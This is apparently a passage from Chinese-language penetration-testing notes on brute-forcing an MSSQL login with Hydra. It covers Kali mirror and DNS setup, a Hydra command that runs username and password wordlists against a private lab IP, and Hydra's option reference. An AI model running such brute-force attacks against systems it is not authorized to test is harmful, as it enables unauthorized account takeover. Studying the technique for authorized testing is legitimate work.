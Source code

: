 ### 5.2 Hydra 暴力破解

换源

```bash
vim /etc/apt/sources.list

deb https://mirrors.aliyun.com/kali kali-rolling main non-free contrib
deb-src https://mirrors.aliyun.com/kali kali-rolling main non-free contrib

apt-get update && apt-get upgrade
```

dns

```
vim /etc/resolv.conf

nameserver 223.5.5.5
nameserver 223.6.6.6
```



```bash
hydra -L usernameTop500.txt -P passwordTop1000.txt -t 5 -f -v 192.168.70.21 mssql
```

![image-20240727173600399](https://image.201068.xyz/assets/MSSQL/image-20240727173600399.png)

```
  -R        恢复之前中止/崩溃的会话
  -I        忽略现有的还原文件（不要等待10秒）
  -S        执行SSL连接
  -s PORT   PORT如果服务位于其他默认端口上，请在此处定义
  -l LOGIN or -L FILE  登录用户名，或文件加载多个登录名
  -p PASS  or -P FILE  尝试密码，或从文件加载多个密码
  -x MIN:MAX:CHARSET  password bruteforce generation, type "-x -h" to get help
  -y        disable use of symbols in bruteforce, see above
  -r        use a non-random shuffling method for option -x
  -e nsr    try "n" null password, "s" login as pass and/or "r" reversed login
  -u        loop around users, not passwords (effective! implied with -x)
  -C FILE   colon separated "login:pass" format, instead of -L/-P options
  -M FILE   list of servers to attack, one entry per line, ':' to specify port
  -o FILE   write found login/password pairs to FILE instead of stdout
  -b FORMAT specify the format for the -o FILE: text(default), json, jsonv1
  -f / -F   exit when a login/pass pair is found (-M: -f per host, -F global)
  -t TASKS  run TASKS number of connects in parallel per target (default: 16)
  -T TASKS  run TASKS connects in parallel overall (for -M, default: 64)
  -w / -W TIME  wait time for a response (32) / between connects per thread (0)
  -c TIME   wait time per login attempt over all threads (enforces -t 1)
  -4 / -6   use IPv4 (default) / IPv6 addresses (put always in [] also in -M)
  -v / -V / -d  verbose mode / show login+pass for each attempt / debug mode 
  -O        use old SSL v2 and v3
  -K        do not redo failed attempts (good for -M mass scanning)
  -q        do not print messages about connection errors
  -U        service module usage details
  -m OPT    options specific for a module, see -U output for information
  -h        more command line options (COMPLETE HELP)
  server    the target: DNS, IP or 192.168.0.0/24 (this OR the -M option)
  service   the service to crack (see below for supported protocols)
  OPT       some service modules support additional input (-U for module help)
```

